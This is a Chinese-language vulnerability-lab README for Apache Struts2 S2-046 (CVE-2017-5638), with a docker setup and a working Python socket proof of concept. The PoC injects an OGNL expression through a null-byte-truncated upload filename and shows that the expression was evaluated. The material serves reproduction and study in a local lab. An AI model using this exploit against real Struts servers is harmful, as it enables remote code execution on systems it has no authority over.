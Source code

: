 # S2-046 远程代码执行漏洞（CVE-2017-5638）

影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

漏洞详情: 

 - https://cwiki.apache.org/confluence/display/WW/S2-046
 - https://xz.aliyun.com/t/221

## 漏洞环境

执行如下命令启动struts2 2.3.30：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到上传页面。

## 漏洞复现

与s2-045类似，但是输入点在文件上传的filename值位置，并需要使用`\x00`截断。

由于需要发送畸形数据包，我们简单使用原生socket编写payload：

```python
import socket

q = b'''------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test',233*233)}\x00b"
Content-Type: text/plain

foo
------WebKitFormBoundaryXd004BVJN9pBYBL2--'''.replace(b'\n', b'\r\n')
p = b'''POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Length: %d

'''.replace(b'\n', b'\r\n') % (len(q), )

with socket.create_connection(('your-ip', '8080'), timeout=5) as conn:
    conn.send(p + q)
    print(conn.recv(10240).decode())

```

`233*233`已成功执行：

![](1.png)
